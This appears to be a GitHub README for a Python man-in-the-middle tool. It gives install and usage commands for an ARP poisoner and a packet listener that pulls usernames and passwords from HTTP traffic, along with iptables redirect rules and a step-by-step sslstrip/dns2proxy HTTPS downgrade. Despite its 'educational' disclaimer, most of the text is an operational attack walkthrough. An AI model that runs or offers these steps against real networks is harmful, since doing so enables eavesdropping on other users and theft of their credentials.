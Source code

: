 # MITM-tool
MITM is known as one of the most common attack and this tool do this attack. This repo include arp poisoner and packet listener python files. This is educational repository so don't try this tool over other users. Firstly run arp_poisoner.py then packet_listener.py also you can use wireshark instead of packet_listener.py
![Image of Yaktocat](https://i0.wp.com/hackonology.com/wp-content/uploads/2019/10/man-in-the-middle-attack.png?w=893&ssl=1)

# Requirements

Operating system: Linux

Libraries: 
```bash
> pip install scapy 
> pip install sslstrip
```
# Arp poisoner usage
```bash
> python3 arp_poisoner.py -t <target ip> -g <gateway ip>
```

# Packet listener usage
if you want to see all packets by sent target user you should use option 1  
```bash
Option 1 ->  python3 packetlistener.py --all <interface>
```
if you want to see just user infos like username and password when a user go into http sites you should use option 2 
```bash    
Option 2 -> python3 packetlistener.py --userinfos <interface>
```

# HTTPS to HTTP downgrade
This tool is working on http websites, if you want to get https website's packets we need to downgrade https to http.
There is a tool called sslstrip for this, we need to use it and also dns2proxy tool should be installed.

**STEP 1**
```bash
root@kali:~#  git clone https://github.com/singe/dns2proxy
root@kali:~/dns2proxy#  iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
root@kali:~/dns2proxy#  iptables -t nat -A PREROUTING -p udp --destination-port 53 -j REDIRECT --to-port 53
```
**STEP 2**
```bash
> python3 arp_poisoner.py -t <target ip> -g <gateway ip>
```
***STEP3*** 
```bash
> python3 packetlistener.py --userinfos <interface>    or    python3 packetlistener.py --all <interface>
```
**STEP 4**
```bash
> sslstrip
```
**STEP 5**
```bash
> python3 dns2proxy.py
```
